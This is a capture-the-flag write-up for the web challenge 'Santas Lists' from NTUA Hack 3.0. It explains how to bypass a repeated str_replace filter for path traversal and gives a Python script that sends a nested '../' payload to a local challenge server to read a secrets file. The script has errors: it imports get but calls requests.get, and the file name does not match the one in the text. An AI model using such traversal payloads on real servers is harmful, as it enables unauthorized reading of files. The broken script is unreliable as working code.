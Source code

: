 +++
title = 'Ntua Hack 3.0: Santas Lists'
date = 2024-12-16T19:32:27+02:00
draft = false
showpage = true
+++

----
Github Repo with official writeups: [NTUAH4CK-3.0](https://github.com/Thread-in-the-Needle/NTUAH4CK-3.0) by Thread-in-the-Needle

----
### Description
Can you manage to read Santa's secret list? 🎅🎅🎅<br>
Tags: web

----

Navigate to the website.

![alt](lab2.png)

There are two buttons, 'Good List' and 'Naughty List' that redirects us to `/?list=good.php` and `/?list=naughty.php` respectively.

By the description we want to access the secret list which is probably somewhere in the server.

Let's inspect the server code that is provided along with the challenge description.

![alt](lab1.png)

As we can see, `list` parameter is filtered through the `clean($input)` function and then is passed to the `$filepath` variable as `$clean_list`.

`$filePath = __DIR__.'/lists/'.$clean_list;`

The `clean()` function has implemented a poor way of defending against path traversal attacks, so we may be able to eploit it.

There is loop of 100 times that `str_replace` function replaces all `../` it finds in each iteration. Since we know its 100 iterations we can give 101 to bypass this.

For example if we had 2 replacement loops the payload would be something like `/?list=......///secrets.php`

Additionally we know that `secrets.php` is not into `/lists` folder and it is probably outside of the server path `/var/www/html`, so we should have something like `/?list=......///......///......///......///......///secrets.php`.

Keeping all that in mind let's construct an exploit in Python.

```py
from requests import get

url = "http://127.0.0.1:1337"

# generate 100 times the sequence '../' to bypass server restrictions
def payload():
    str = ''
    for i in range(101):
        str += '..'
    for i in range(101):
        str += '/'

    return str

response = requests.get(f'{url}/?list={payload()*5}secret.php')

print(response)

```

The response contains the flag.

![alt](lab3.png)
